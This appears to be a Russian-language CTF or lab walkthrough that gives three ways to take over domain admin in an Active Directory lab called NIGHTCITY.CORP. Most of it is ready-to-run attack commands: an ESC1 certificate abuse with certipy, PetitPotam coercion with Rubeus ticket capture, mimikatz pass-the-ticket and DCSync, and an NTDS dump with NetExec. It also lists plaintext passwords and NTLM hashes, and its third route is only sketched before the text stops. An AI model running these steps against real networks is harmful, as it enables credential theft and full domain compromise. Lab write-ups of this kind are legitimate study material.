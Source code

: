 # Requirements
[NXC](https://www.netexec.wiki/getting-started/installation/installation-on-unix)
[PetitPotam](https://github.com/topotam/PetitPotam)
[Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe)
[mimikatz](https://github.com/ParrotSec/mimikatz/blob/master/x64/mimikatz.exe)


## Первый вариант взятия ДОМЕН АДМИНА
  asrep roasting r3n0, (пароль `P@ssw0rd`). Через certipy видно что от данного пользака можно сделать ESC1. 
```certipy-ad req -u R3n0 -hashes 8f81de1111733d3a03cdcfd31ae696de -dc-ip 172.31.200.102 -ca nightcity-DC-02-CA -template Faraday -upn administrator@NIGHTCITY.CORP -debug```

```sudo apt install ntpdate && sudo ntpdate 172.31.200.101```

```certipy-ad auth -pfx administrator.pfx -dc-ip 172.31.200.101 -debug```


## Второй вариант взятия ДОМЕН АДМИНА
На шаре pacifica\Dogtown - лежал пароль локал админа этой тачки. Видим что pacifica имеет права неограниченного дегерирования. Заходит на хост по рдп ```xfreerdp /v:172.31.200.111 /u:David /p:D@v1d_l0v#s_LuCy  /dynamic-resolution +clipboard```, закидываем rubeus.exe. Ставим ```.\Rubeus.exe monitor /interval:5``` Параллельно делаем petitpotam.py скачать с гита. ```python3 PetitPotam.py pacifica.NIGHTCITY.CORP 172.31.200.101```. В окне рубеусе появляется новый билетик для DC-01.
![типа такого будет](https://habrastorage.org/r/w1560/getpro/habr/upload_files/abe/6dd/48d/abe6dd48dd0602f5780b37462f13ffc7.png)
Теперь закидываем еще мимик на тачку
```
[IO.File]::WriteAllBytes("C:\Users\David\Desktop\ticket-filename.kirbi", [Convert]::FromBase64String(“base64-ticket”))
Mimikatz.exe
privilege::debug
kerberos::ptt C:\Users\David\Desktop\ticket-filename.kirbi
lsadump::dcsync /user:Administrator
```
Остается получить ntds ```nxc smb 172.31.200.101 -u Administrator -H 90c1e25b12005c3146f13228043aa87d  --ntds```


## Третий вариант взятия ДОМЕН АДМИНА
спреим учетки ```Placide@NIGHTCITY.CORP:Ktnj2024``` и ```Dum_Dum@NIGHTCITY.CORP```. У них есть genericWrite на Watson, что позволяет сделать RBCD на этом хосте и заовнить его. 
